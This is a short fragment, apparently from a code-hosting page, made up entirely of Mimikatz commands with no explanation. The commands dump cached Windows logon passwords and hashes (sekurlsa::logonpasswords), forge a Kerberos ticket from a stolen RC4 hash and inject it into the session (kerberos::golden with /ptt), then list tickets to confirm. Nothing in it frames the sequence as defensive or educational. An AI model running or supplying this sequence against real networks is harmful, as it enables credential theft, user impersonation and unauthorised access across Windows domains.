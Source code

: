 ```powershell
privilege::debug
sekurlsa::logonpasswords
```

```powershell
whoami /user
kerberos::golden /sid:$SID /domain:$DOMAIN /ptt /target:$TARGET /service:http /rc4:$HASH /user:$TARGET_USER
```

```powershell
klist
```